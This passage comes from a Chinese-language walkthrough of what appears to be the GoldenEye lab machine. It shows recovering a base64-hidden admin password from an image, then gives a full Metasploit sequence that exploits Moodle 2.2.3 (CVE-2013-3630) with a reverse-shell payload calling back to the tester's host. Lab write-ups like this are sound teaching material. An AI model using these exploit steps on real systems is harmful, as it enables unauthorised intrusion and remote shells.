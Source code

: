    5. ![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=NzNiNGNmMDQ2NWEyODEwZDk2NzJhZTUxMDcyNzJiMTNfQ2lwNzVFMERjcGhQZ3BWQWMweWJ5SDdNdEhObm5YM2RfVG9rZW46Rk9RS2JhWUVOb0pwRUF4QzZFcmM1Uk5KbmZiXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

   6.  strings for-007.jpg

   7. ![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZDhiZjg2ZGJiMDFmNWVjZjc0NTdhMjE0NjFkMDk2MzdfWkRIT2N5TnVleWRKOEFHeTllcjNKeTBxS2NJaTdqZ3RfVG9rZW46TGVSZWJqdDZnb053dG54VW1CMWNPZzIxbkwzXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

   8.  用以上命令都可以查看到base64编码隐藏信息：eFdpbnRlcjE5OTV4IQ==，解密得xWinter1995x!

   9.  根据线索，这是管理员用户的密码。管理员用户身份继续登陆应用程序。

   10. ![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=NjVjN2RmOGNjYTFhMDQwN2VkMmExZjU2MzY4OGM5NGFfVDlNMko4MGUwRjZKSllrbHpoUktVWU5WQkI4bjBEMHpfVG9rZW46SXo3TmJMVHhtb2psQzF4R3YzWWNFTmREbjZmXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

   11.  用户名：admin

   12.  密码：xWinter1995x!

   13.  登录成功！管理员权限很多

# 漏洞探测、利用

继续发现了Moodle的版本号，决定寻找Moodle 2.2.3版本的漏洞exp

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZWQ2YmUyNmNhNmE0NGQ1YWRlM2NhYmZkNTc1YjRhZmFfRVBDZnI3dDJGcWpFTWh4aUY5dWR3UkpPSDB6Z3hpSmdfVG9rZW46TnNnY2JsSXZjbzI3dEx4RWMyY2N2OWhYbmRjXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

 Moodle 2.2.3 exp cve   --> CVE-2013-3630 远程命令执行RCE漏洞可利用

##  服务器shell

 [什么是交互式shell和非交互式shell?](https://www.maoyingdong.com/what_is_a_interactive_shell/)

 msf一把梭哈

```Python
msfconsole                        ---进入MSF框架攻击界面
search moodle                     ---查找 moodle这个CMS的攻击的模块
use 1(攻击脚本编号)                ---调用0  exploit/multi/http/moodle_cmd_exec调用攻击脚本
show options                      ---查看需要填充的变量
set username admin                ---设置用户名：admin
set password xWinter1995x!        ---设置密码：xWinter1995x!
set rhost severnaya-station.com   ---设置：rhosts severnaya-station.com
set targeturi /gnocertdir         ---设置目录： /gnocertdir
set payload cmd/unix/reverse      ---设置payload：cmd/unix/reverse（linux内核，Linux是一个                                      类 Unix 操作系统）
set lhost 192.168.200.131         ---设置：lhost 192.168.200.131（需要本地IP）
exploit  ----执行命令
```

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MDIyNmRlNGY4MWU3OGVlOTVhMTRmNzNiZGVmNmVmMDZfdFkwd3FOeUZ5TkFNbmYya0Q3bUpaVjRjbVR6TkMwcUpfVG9rZW46U2E4aGJPNzR6b2VkWGl4dFBDY2NMaGo5bndnXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZTY5MjgzODI3ZWNiZGY2NDI0Nzc5NDUwZjUwNzc3YjJfYjZ5dmVWRndpRzkzanBaZkhpSjdHSmwyb0M3WktBR0hfVG9rZW46UnowT2JNRkpBbzF4Sk14SUR3V2NxNmdvbnZiXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)
